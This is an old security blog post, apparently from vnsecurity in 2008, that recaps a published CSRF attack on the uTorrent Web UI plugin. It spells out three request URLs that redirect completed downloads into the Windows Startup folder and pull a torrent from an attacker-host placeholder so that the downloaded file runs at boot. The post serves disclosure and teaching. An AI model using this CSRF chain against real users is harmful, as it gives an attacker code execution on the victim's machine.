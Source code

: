 ```yaml
---
title: Own a box via CSRF
author: rd
excerpt: |
  |
    You get bored of CSRF issues every day? Now this is one is a bit more interesting
layout: post
shorturls:
  - 'a:4:{s:9:"permalink";s:54:"https://www.vnsecurity.net/2008/05/own-a-box-via-csrf/";s:7:"tinyurl";s:26:"http://tinyurl.com/y85vhb2";s:4:"isgd";s:18:"http://is.gd/aOtiy";s:5:"bitly";s:20:"http://bit.ly/7yIvLT";}'
tweetcount:
  - 1
twittercomments:
  - 'a:1:{i:10730529254;s:7:"retweet";}'
tweetbackscheck:
  - 1408359013
categories:
  - tutorials
---
```

Rob Carter has posted a blog on how to [pwn a box via a pure CSRF bug][1] of a uTorrent plugin. When a user installs the uTorrent Web UI plugin, the plugin starts a locally running web server on your machine. Basically, his CSRF exploit force uTorrent to move completed downloads to an arbitrary directory on their system, download arbitrary torrents, and completely own their box. </p> 

*   The first CSRF to turn on the “Move completed downloads” option on the uTorrent Web UI. http://localhost:14774/gui/?action=setsetting&s=dir\_completed\_download_flag&v=1 

*   The second CSRF to change the path of where the completed torrent download is placed. For example:</p> 
    http://localhost:14774/gui/?action=setsetting&s=dir\_completed\_download&v=C:
    
    Documents%20and%20SettingsAll%20UsersStart%20MenuProgramsStartup </li> </ul> 
    *   The last CSRF is to force the victim to download a torrent which points to an attacker controlled file. Once the file is downloaded via torrent, uTorrent places the files into startup folder and automatically run the file in the next windows boot.</p> 
        http://localhost:14774/gui/?action=add-url&s=http://www.attacker.com/file.torrent

 [1]: http://r00tin.blogspot.com/2008/04/utorrent-pwn3d.html